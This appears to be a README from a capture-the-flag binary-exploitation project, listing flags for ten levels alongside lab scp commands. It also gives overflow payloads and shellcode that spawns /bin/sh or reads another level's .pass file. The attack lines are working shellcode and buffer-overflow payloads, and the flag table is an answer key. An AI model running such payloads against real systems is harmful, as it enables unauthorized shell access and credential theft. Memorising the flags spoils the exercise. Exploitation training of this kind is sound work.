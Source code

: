 # Override

# Description

...

# Flag

| N°      | Name            | Flag                                     |
|:-------:|-----------------|------------------------------------------|
| level00 | Atoi            | uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL |
| level01 | Buffer Overflow | PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv |
| level02 | Printf Format   | Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H |
| level03 | Switch Case     | kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf |
| level04 | Fork No Exec    | 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN |
| level05 | Printf Format 2 | h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq |
| level06 | Simple Auth     | GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8 |
| level07 | Jump Shellcode  | 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC |
| level08 | Double Open     | fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S |
| level09 | Simple BO       | j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE |

## Commands

```
export FILE=level02; mkdir $FILE; cd $FILE; touch source flag README.md; mkdir Ressources; cd Ressources; scp -P 4242 $FILE@192.168.1.116:/home/users/$FILE/$FILE .
```

```
scp -P 4242 -r .peda level00@192.168.1.152:/tmp/peda
```

### Overflow
#### Basic
```
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

#### Shellcode
```
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
#### Cat
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

#### Exec sh 1
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

#### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

### GCC
#### Get env address
```
x/10s **(char***)&environ
```
